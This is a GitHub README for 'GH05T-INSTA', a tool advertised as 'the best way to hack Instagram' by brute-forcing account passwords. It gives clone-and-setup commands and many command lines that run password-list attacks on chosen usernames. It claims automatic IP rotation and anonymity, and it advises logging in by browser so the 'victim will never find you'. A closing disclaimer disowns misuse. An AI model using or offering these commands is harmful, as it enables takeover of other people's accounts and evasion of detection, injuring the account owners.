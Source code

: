 
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ ./gh05t --user your-account-username --pass your-password-option 
$ ./gh05t --user mr_77778#8 --pass 2 
$ ./gh05t --user mr_fqake#@ --pass 3 
$ ./gh05t --user jdjza888#8 --pass 4 
$ ./gh05t --user gersman_9#6# --pass 6 
$ ./gh05t --user mr_77bd778#8 --pass 7 
$ ./gh05t --user ar_fake#@ --pass 8 
$ ./gh05t --user li888#8 --pass 9 
$ ./gh05t --user mtrman_9#6# --pass 10 
$ ./gh05t --user jr_77778#8 --pass 11 
$ ./gh05t --user ig_fake#@ --pass 12 
$ ./gh05t --user hsjza888#8 --pass 13 
$ ./gh05t --user gelian_9#6# --pass 14 
$ ./gh05t --user gehsghan_9#6# --pass 15 
$ ./gh05t --user jr7778#s8 --pass 16 
$ ./gh05t --user igahacke#@ --pass 17 
$ ./gh05t --user hsjd888#8 --pass 18 
$ ./gh05t --user gehdhan_9#6# --pass 19 
$ ./gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ ./gh05t --user username --passadd pwdlocation-and-name
$ ./gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ ./gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ ./gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ ./gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ ./gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ ./gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ ./gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ ./gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ ./gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ ./gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ ./gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ ./gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ ./gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
